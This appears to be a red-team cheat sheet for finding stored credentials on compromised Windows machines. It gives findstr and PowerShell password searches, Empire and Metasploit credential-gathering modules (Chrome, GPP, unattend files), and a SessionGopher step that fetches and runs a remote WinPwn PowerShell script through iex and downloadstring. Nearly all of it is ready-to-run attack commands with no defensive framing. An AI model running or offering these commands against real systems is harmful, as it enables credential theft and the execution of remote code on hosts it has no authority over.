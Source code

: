# Credentials in files

### 1) Cmd

#### Running these commands in the root of c:\ can produce enourmouse output.

    findstr /si pass *.xml *.doc *.txt *.xls
    findstr /si cred *.xml *.doc *.txt *.xls

### 2) Empire C2

    powershell/collection/file_finder
    powershell/collection/find_interesting_file
    powershell/credentials/sessiongopher

### 3) Metasploit

#####  Meterpreter

#### Search by file name from parent directory

    search -d <Directory> -f <File>
    search -d c:\\shares -f *password*

#### Modules

    use post/windows/gather/enum_unattend
    use post/windows/gather/credentials/chrome
    use post/windows/gather/credentials/gpp
    use post/windows/gather/enum_files

# Search all modules

    search post/windows/gather/credentials

### 4) Powershell

    ls -R | select-string -Pattern password

### 5) SessionGopher

    $S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
    iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
    sessionGopher -noninteractive -consoleoutput
